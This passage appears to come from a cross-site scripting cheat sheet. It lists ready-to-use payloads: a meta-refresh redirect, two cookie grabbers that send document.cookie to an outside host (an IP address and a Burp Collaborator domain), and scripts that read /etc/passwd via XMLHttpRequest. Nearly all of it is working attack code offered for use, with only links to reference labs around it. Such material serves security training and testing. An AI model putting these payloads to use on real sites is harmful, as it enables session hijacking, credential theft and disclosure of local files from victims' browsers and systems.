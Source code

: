 ```html
<head> 
  <meta http-equiv="refresh" content="0; URL=http://www.example.com/" />
</head>
```

* [developer.mozilla.org/ru/docs/Web/HTTP/Redirections](https://developer.mozilla.org/ru/docs/Web/HTTP/Redirections)



### Data Grabbers


#### Cookies

Img tag:

```
<img src="x" onerror="this.src='http://10.10.15.123/?c='+btoa(document.cookie)">
```

Fetch:

```javascript
<script>
fetch('https://<SESSION>.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
</script>
```

* [portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)



### XMLHttpRequest


#### XSS to LFI

```javascript
<script>
var xhr = new XMLHttpRequest;
xhr.onload = function() {
	document.write(this.responseText);
};
xhr.open("GET", "file:///etc/passwd");
xhr.send();
</script>
```

```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText);};x.open("GET","file:///etc/passwd");x.send();</script>
```
